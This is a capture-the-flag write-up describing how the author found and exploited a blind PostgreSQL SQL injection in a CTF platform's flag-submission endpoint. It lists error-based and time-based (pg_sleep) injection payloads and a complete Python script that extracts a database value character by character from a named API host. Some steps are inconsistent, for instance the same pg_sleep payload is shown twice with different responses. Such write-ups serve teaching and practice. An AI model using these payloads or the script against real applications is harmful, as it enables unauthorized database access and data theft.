



## Introduction



`hmlndr`, the CTF Platform created by `Niemand`, which contains a ready task called `NGINXO`, a task that contains a `.vercel.app` url which is clearly not a place where you can leave an nginx configuration file. and the link just redirects to a random music video.

## Analysis

The `NGINXO` is clearly fake, so we will keep our eyes for the CTF Platform itself, we can't tell anything by the source code nor having anything interesting in the cookies. Only having a single task, that once you click on it, you fire a get request to retrieve the task's data, and a flag input field, that once you submit it, you fire a post request to check if the flag is correct. And obviously a "get all tasks" request prior to all of that.

Throwing `'`, `''`, `)`... to each of the id placeholders in the requests leads to empty data, and trying the POST request with a random text to try its ID we get this output:
```ERROR: Flag should start with Securinets{ and end with } (SQLSTATE P0001)```

Which was the Request response and not what iit gets printed in the interface.. 

Which is unexpected, since this kind of error is coming from SQL itself once submitting the random text as a flag, this could tell us that we are could be dealing with an SQL injection, but we can't be sure yet.

throwing `Securinets{}'` to the flag input field, we get this response:
```"ERROR: unterminated quoted string at or near \"'Securinets{}'')\" (SQLSTATE 42601)"```

This could tell us that the flag is being used inside a `()` so we can try to close it like `Securinets{}') --` and we get this response:
```"Wrong flag"```

Got em, it fell for it, now we can try to inject some SQL code. But we note that we are not getting any response from the server, so it must be a blind SQL injection. Still as long as it returns a "Wrong flag" response, we are executing the SQL code correctly.

tryng `Securinets{}') union select 1,2,3 --` we get this response:
```"ERROR: each UNION query must have the same number of columns (SQLSTATE 42601)"```

and after trying `Securinets{}') union select 1 --` we get this response:
```"Wrong flag"```

So, the select statement is returning 1 column, and it is a number.

Continuing with `Securinets{}') union select 1 from flag --` and we get this response:
```"ERROR: relation \"flag\" does not exist (SQLSTATE 42P01)"```

So, no `flag` table. We bet on `tasks` since it part of the `REST API` url, so we try `Securinets{}') union select 1 from tasks --` and we get this response:
```"Wrong flag"```

So we're on the right track, still we want the column name, where we bet on `flag`, try `Securinets{}') union select 1 from tasks where flag is not null --` and we get this response:
```"Wrong flag"```

So we know the table name and the column name. Now since it is a blind SQL injection, we try a simple `sleep` function to see if we are getting a response from the server, try `Securinets{}') union select sleep(5) --` and we get this response:
```"ERROR: function sleep(integer) does not exist (SQLSTATE 42883)"```

So we can't use the `sleep` function, Assuming it's a different database, we try `Securinets{}') union select pg_sleep(5) --` and we get this response:
```"Wrong flag"```

but we can use the `pg_sleep` function, try `Securinets{}') union select pg_sleep(5) --` and we get this response:
```"ERROR: UNION types integer and void cannot be matched (SQLSTATE 42804)"```

Which means that we can use `pg_sleep` but it does not return a number like `sleep` does, and based on Google its a void function. An option is to wrap it inside where as "it should not be null", like: `Securinets{}') union select 1 from tasks where pg_sleep(5) is not null --` and we get this response:
```"Wrong flag"``` 

The response took around 6 seconds, which means it did sleep for 5 seconds, so we can use it.

Trying to trigger an error, since we can do so, we can either use the divide by zero approach, or since we already have an error regarding the flag format, we can use it in this context and pass `Securinets{}` if a condition is true, otherwise we pass `Securinets{` and cause the error to happen.

Based on the task description in the platform, the flag format is `Securinets{[a-zA-Z0-9_]+}` so it is either an alphanumeric string mixed with underscores, wrapped inside `Securinets{}`. 

Knowing that the first character of the flag is `S`, we can try to use the `substring` function to get the first character of the flag, then we can test with this payload that checks if its a uppercase letter: `Securinets{' || (select '}' from tasks where substring(flag, 1, 1) ~ '^[A-Z]+$') || '` and we get this response:
```"Wrong flag"```

Which means it passed, testing if it's a number
`Securinets{' || (select '}' from tasks where substring(flag, 1, 1) ~ '^[0-9]+$') || '` and we get this response:
```"ERROR: Flag should start with Securinets{ and end with } (SQLSTATE P0001)"```

So we know that our payload is working correctly.

Knowing that the order of `S` is 18, we can try to sleep that amount to see if we can estimate the range of the characters, with the `ascii` method and `lower`. The payload will be:
`Securinets{}') union select 1 from tasks where pg_sleep(ascii(lower(substring(flag, 1, 1))) - ascii('a')) is not null --`, and we get our response after -in my case- `18.88s`.

So pretty close, we can work on the interval [nbr of seconds - 2 or 3, nbr of seconds] to guess the character.

You can see that we have tested multiple payloads at this point, from causing errors and trying `pg_sleep`... My goal is that the final script will be used as optimized as possible instead of just bruteforcing the whol array of characters.

## Exploitation

wrapping up what we have done so far, using python to automate the process, we create a script that for each character in the flag, we will:
- check if it's a number, an uppercase letter, a lowercase letter, or an underscore
- try to sleep for the corresponding amount of seconds
- iterate over the interval [nbr of seconds - 2 or 3, nbr of seconds] to guess the correct character
- append the character to the flag

Here is our script:

```python
import requests as r
import time

def get_payload(payload, *params):
    for p in list(params):
        payload = payload.replace("?", str(p), 1)
    return payload

def request(payload):
    try:
        url = "https://hmlndr-api.onrender.com/tasks/1/submit"
        data = {"flag": payload}
        rs = r.post(url, json=data).text
        print(rs) # for debugging
        return  rs
    except Exception as e:
        print("Error happened due to connection, retrying...")
        return request(payload)

def is_number(idx):
    print(f"is #{idx} a number?")
    payload = get_payload(
        "Securinets{' || (select '}' from tasks where substring(flag, ?, 1) ~ '^[0-9]+$') || '",
        idx
    )
    response = request(payload)
    if "Wrong flag" in response:
        return True
    return False

def is_underscore(idx):
    print(f"is #{idx} an underscore?")
    payload = get_payload(
        "Securinets{' || (select '}' from tasks where substring(flag, ?, 1) = '_') || '",
        idx
    )
    response = request(payload)
    if "Wrong flag" in response:
        return True
    return False

def is_uppercase(idx):
    print(f"is #{idx} an uppercase?")
    payload = get_payload(
        "Securinets{' || (select '}' from tasks where substring(flag, ?, 1) ~ '^[A-Z]+$') || '",
        idx
    )
    response = request(payload)
    if "Wrong flag" in response:
        return True
    return False

def is_lowercase(idx):
    print(f"is #{idx} a lowercase?")
    payload = get_payload(
        "Securinets{' || (select '}' from tasks where substring(flag, ?, 1) ~ '^[a-z]+$') || '",
        idx
    )
    response = request(payload)
    if "Wrong flag" in response:
        return True
    return False


def check_char(idx, char):
    print(f"checking #{idx} for {char}")
    payload = get_payload(
        "Securinets{' || (select '}' from tasks where substring(flag, ?, 1) = '?') || '",
        idx,
        char
    )
    response = request(payload)
    if "Wrong flag" in response:
        return True
    return False

def get_char_interval(idx, base = 'a'):
    print(f"getting interval for #{idx}")
    payload = get_payload(
        "Securinets{}') union select 1 from tasks where pg_sleep(ascii(lower(substring(flag, ?, 1))) - ascii('?')) is not null --",
        idx,
        base
    )
    tick = time.time()
    request(payload)
    tock = time.time()
    took = round(tock - tick)
    return took


def get_char(idx):
    if is_underscore(idx):
        return "_"


    if is_number(idx):
        iv = get_char_interval(idx, '0')
        print("number interval:", iv)
        while True:
            if check_char(idx, str(iv)):
                return str(iv)
            iv -= 1
    
    if is_uppercase(idx):
        iv = get_char_interval(idx)
        print("uppercase interval:", iv)
        while True:
            if check_char(idx, chr(iv + 64)):
                return chr(iv + 64)
            iv -= 1

    if is_lowercase(idx):
        iv = get_char_interval(idx)
        print("lowercase interval:", iv)
        while True:
            if check_char(idx, chr(iv + 96)):
                return chr(iv + 96)
            iv -= 1

    return "}"


flag = "Securinets{"
idx = len(flag) + 1

while True:
    c = get_char(idx)
    flag += c
    if c == "}":
        break
    
    print("current flag:", flag)
    idx += 1

print("final flag:", flag)
```



trying the flag we have got in the web interface, and it validates!



## Conclusion
I've always thought of, what if hackers just hacked the CTF platform itself?


PS: Since the database is not that stable (hosted privately), it might fall from the number of requests that overloded, so you might want to follow the script execution and try to run it again if it fails where it left off.
A lesson for me, that next time I think of a better provider for the database xD.

## Flag
> ```Securinets{h4tte_SturmFront_s3in_k0nneN}```

